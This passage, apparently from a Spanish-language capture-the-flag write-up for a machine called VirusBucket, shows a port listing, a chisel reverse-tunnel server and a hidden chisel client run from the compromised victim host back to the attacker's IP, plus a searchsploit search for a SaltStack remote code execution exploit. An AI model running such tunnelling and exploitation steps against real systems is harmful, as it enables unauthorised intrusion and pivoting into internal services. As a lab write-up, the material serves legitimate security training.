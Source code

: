 ```null
LISTEN               0                    4096                                        127.0.0.1:4505                                   0.0.0.0:*                                                                 
LISTEN               0                    4096                                        127.0.0.1:4506                                   0.0.0.0:*                                                                 
LISTEN               0                    4096                                        127.0.0.1:8000                                   0.0.0.0:*                                                                 
LISTEN               0                    1                                  [::ffff:127.0.0.1]:8005                                         *:*                   users:(("java",pid=1072,fd=56))               
LISTEN               0                    100                                                 *:8080                                         *:*                   users:(("java",pid=1072,fd=45))               
LISTEN               0                    128                                              [::]:22                                        [::]:*        
```

Subo el ```chisel``` para poder tener conectividad con estos

En mi equipo creo el servidor

```null
chisel server -p 1234 --reverse
2023/03/13 18:43:29 server: Reverse tunnelling enabled
2023/03/13 18:43:29 server: Fingerprint 2yhsgAw0I2dTnVkt2gZ6uTVfDOyEI12JAS3J9hQfB74=
2023/03/13 18:43:29 server: Listening on http://0.0.0.0:1234
2023/03/13 18:43:40 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Desde la máquina víctima me conecto

```null
tomcat@VirusBucket:/tmp$ ./chisel client 10.10.16.9:1234 R:socks &>/dev/null & disown
```

El servicio que corre para los puertos 4505 y 4506 puede que sea vulnerable si coincide la versión del exploit

```null
searchsploit saltstack
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                                                                                                       | multiple/remote/48421.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
